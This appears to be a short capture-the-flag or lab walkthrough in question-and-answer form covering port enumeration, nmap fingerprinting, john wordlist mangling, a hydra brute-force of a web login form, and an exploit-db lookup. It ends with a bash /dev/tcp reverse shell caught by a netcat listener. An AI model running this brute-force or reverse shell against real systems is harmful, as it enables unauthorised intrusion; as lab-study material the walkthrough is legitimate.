 # Science/Med Bay

### How do you list all ports with extended information including UID and timers?
```
netstat -atunelop
```

### Given a port number, how do you find the associated service and its version?
```
nmap localhost -p 54261 -sC -sV
# -sC script scan
# -SV version scan
```

### How do you build a naive wordlist with mangled variation with john?
```
john --wordlist:/tmp/words.txt --rules --stdout
```
It might be a good idea to attempt the same variation for a username list as well

### Using a names list and a passwords list, how can you attempt to find a user login for a web page?
```
hydra -l ash -P /tmp/ash_passwords.txt 127.0.0.1 http-post-form "/interface/main/main_screen.php?auth=login&site=default:authProvider=Default&new_login_session_management=1&authUser=^USER^&clearPass=^PASS^&languageChoice=1:error" -s 54261 -v -V
```

### If you find the software and version of a web app, how can you find out how to exploit it?
Do an Internet search for `site:exploit-db.com <software> <version>`

### What is a script to open a reverse-shell with netcat?
```
# on vulnerable machine:
bash -i >& /dev/tcp/<ip address>/<port> 0>&1 
# on attacker machine:
nc -l -p <port>
```
